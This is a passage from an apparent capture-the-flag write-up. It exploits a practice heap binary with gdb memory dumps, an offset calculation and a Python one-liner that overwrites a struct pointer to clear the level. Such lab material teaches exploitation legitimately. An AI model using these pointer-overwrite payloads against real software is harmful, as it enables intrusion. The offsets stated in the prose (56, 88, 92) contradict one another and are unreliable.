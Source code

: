 ```
   0x0000000000400913 <+381>: mov    rsi,rax
   0x0000000000400916 <+384>: mov    edi,0x400a84
   0x000000000040091b <+389>: mov    eax,0x0
   0x0000000000400920 <+394>: call   0x400620 <printf@plt>
   0x0000000000400925 <+399>: mov    eax,0x0
   0x000000000040092a <+404>: leave  
   0x000000000040092b <+405>: ret    
End of assembler dump.
gdb-peda$ b *main+356
Breakpoint 1 at 0x4008fa
gdb-peda$ r
Starting program: /Hackery/escape/heap_exp/h4_64/h4_64 
75395128
Where do you want to point the James Webb Space Telescope?
```

One wall of text later...

```
Breakpoint 1, 0x00000000004008fa in main ()
gdb-peda$ x/16w 0x603250
0x603250:   0xf7dd1bd8  0x00007fff  0xf7dd1bd8  0x00007fff
0x603260:   0x00000000  0x00000000  0x00000000  0x00000000
0x603270:   0x00000000  0x00000000  0x00000000  0x00000000
0x603280:   0x00000000  0x00000043  0x00000000  0x00000000
gdb-peda$ x/d 0x603284
0x603284:   67
```

So we have the address that the value is stored at, 0x603284. Now we need to figure out the offset needed to reach vega->ion. We know that our input starts at 0x603310, and it should be 56 bytes after 0x603330 (because 8 byte pointer is the last thing in the struct, so it should be 8 bytes away from the end). 

```
0x603330 + 56 = 0x603368
0x603368 - 0x603310 = 88
```

So if our math is correct, the offset needed to reach vega->ion is 56 characters. The program prints out vega->ion as a pointer if we mess up so we can see what happened, so let's try to just give it 92 characters followed by the 0x603284 address.

```
guyinatuxedo@tux:/Hackery/escape/heap_exp/h4_64$ python -c 'print "0"*88 + "\x84\x32\x60\x00\x00\x00\x00\x00"' | ./h4_64 
Where do you want to point the James Webb Space Telescope?
Wow while managine to not do your research, you discovered life on another planet. I am genuinely surprised. Level Cleared!
```

Just like that, we pwned the binary using a use after free exploit. However there is another way we could pwn it. There are two places in the program's memory that stores the value we need, and we already pointed to one of them. We could overflow the pointer to point to the int solar_wind itself, that way when the if then statment runs it will be effictively checking if solar_wind is equal to solar_wind. First we will need to find the relative address of sloar_wind on the stack. Let's try looking at the assembly code for the if then statement.
